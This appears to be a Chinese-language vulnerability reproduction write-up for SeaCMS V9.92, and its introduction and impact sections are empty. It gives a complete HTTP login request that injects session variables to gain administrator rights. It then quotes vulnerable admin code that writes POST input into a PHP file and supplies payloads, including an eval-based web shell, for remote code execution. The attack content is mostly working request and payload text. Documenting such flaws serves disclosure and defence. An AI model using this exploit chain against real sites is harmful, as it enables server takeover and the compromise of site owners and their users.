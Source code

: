 # Seacms V9.92 越权+Getshell

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

**越权**

1、首先注册一个普通用户

2、burp抓包改包，下面是发送payload


```bash
POST /login.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 49
Cache-Control: max-age=0
Origin: http://192.168.8.143
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.8.143/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9smu8an6nvbrqasp5m0o4bmts7
Connection: close

dopost=login&userid=test&pwd=123456&validate=djyf&_SESSION[sea_admin_id]=1&_SESSION[sea_ckstr]=djyf
```

3、 登陆后台页面，可以发现管理员账户变成-1了,也同时拥有管理员的权限

**getshell**

/admin/ip.php


```php
if($action=="set")
{
    $v= $_POST['v'];
    $ip = $_POST['ip'];
    $open=fopen("../data/admin/ip.php","w" );
    $str='<?php ';
    $str.='$v = "';
    $str.="$v";
    $str.='"; ';
    $str.='$ip = "';
    $str.="$ip";
    $str.='"; ';
    $str.=" ?>";
    fwrite($open,$str);
    fclose($open);
    ShowMsg("成功保存设置!","admin_ip.php");
    exit;
```

我们再去看一下ip.php格式


```php
<?php $v = "0"; $ip = " ";  ?>
```

我们可以构造一下,然后保存


```
*;phpinfo();//
```


```
";@eval($_POST[pp]);//
```

![](images/15893393504440.png)


